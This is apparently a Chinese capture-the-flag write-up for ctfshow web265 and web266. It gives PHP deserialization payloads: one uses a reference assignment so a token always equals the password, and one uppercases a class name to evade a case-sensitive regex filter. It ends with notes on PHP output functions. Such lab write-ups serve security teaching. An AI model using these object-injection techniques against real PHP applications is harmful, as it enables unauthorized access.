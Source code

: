 ###  web265

考点：php的按地址传参

在C语言中，可以传地址，如果一个变量的地址赋值给另一个变量，他们的值会同时改变。

所以，利用这个特性构造payload

```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}
$a=new ctfshowAdmin(1,1);
$a->token=&$a->password;
echo serialize($a);
```

###  web266

考点：绕过大小写正则

```php
if(preg_match('/ctfshow/', $cs)) {
    throw new Exception("Error $ctfshowo",1);
}
```

正则表达式后面没有i，所以区分大小写

直接构造payload

```php
<?php
class ctfshow{
}
$a=new ctfshow();
echo serialize($a);
```

把生成的字符串里面的ctfshow改成大写的,就可以了。

对了，这个需要POST

##  补充知识点

###  php中输出打印的方式
```php
echo ,有无括号都可以，输出字符串
print，可以打印字符串
printf，类似于C语言了，%s: 按字符串;
%d: 按整型;
%b: 按二进制；
%x: 按16进制；
%o: 按八进制;
$f: 按浮点型
print_r,专门用来输出数组类型
var_dump,可以输出字符串和数组，用来调试
die，停止下面的程序执行，并输出一定的内容
```
